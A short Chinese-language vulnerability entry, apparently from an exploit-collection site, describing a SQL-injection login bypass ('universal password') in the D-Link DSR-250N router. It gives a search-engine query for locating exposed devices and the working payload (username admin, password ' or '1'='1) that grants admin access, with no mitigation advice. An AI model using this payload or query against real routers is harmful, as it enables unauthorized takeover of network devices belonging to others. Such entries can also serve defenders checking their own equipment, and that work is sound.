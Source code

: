# D-Link DSR-250N SQL注入漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

<a-checkbox checked>D-Link DSR-250N</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DSR-250N"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210609175053339.png)



```plain
user: admin
pass: ' or '1'='1
```

成功登录后台



![img](../../../.vuepress/public/img/image-20210609175150907.png)

